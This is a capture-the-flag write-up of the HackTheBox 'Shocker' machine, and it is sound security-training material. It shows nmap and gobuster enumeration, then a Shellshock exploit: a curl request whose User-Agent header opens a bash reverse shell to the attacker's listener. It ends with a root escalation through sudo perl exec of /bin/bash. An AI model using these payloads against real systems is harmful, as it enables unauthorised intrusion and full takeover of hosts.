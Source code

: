 ```yaml
---
description: Shocker box from HackTheBox write up.
---
```


# Shocker

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 1000 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 13:14 EST
Nmap scan report for 10.10.10.56
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 20.69 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p80,2222 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-13 13:17 EST
Nmap scan report for 10.10.10.56
Host is up (0.057s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.96 seconds
```

Looks like only two ports are open. Since one of them is SSH let's start looking around the website.

## Port 80

The page only shows a simple index page so we can go for a Gobuster scan. After a while the scan revealed that the `cgi-bin` directory exists on the server so the next step would be to check for scripts inside this directory.

A `gobuster` scan looking for common extensions of files in this directory revealed that `user.sh` exists. Maybe the server is vulnerable to Shellshock so let's spin up a listener and execute:

```bash
curl -H 'User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.20/8000 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

And we have prize!:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8000
listening on [any] 8000 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 47224
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

Now we can just stabilize the shell and start to enumerate the host.

## In the box as shelly

The web server is running as the `shelly` user so we can just grab the user flag under: `/home/shelly/user.txt`. Now performing some basic enumeration tasks we can see this:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Since we can execute `perl` with `sudo` we should be able to escalate.

### Getting root

We can just execute `bash` from `perl` to get a `root` shell:

```bash
shelly@Shocker:/$ sudo perl -e 'exec "/bin/bash";'
root@Shocker:/#
```

And we can just get the root flag under: `/root/root.txt`.
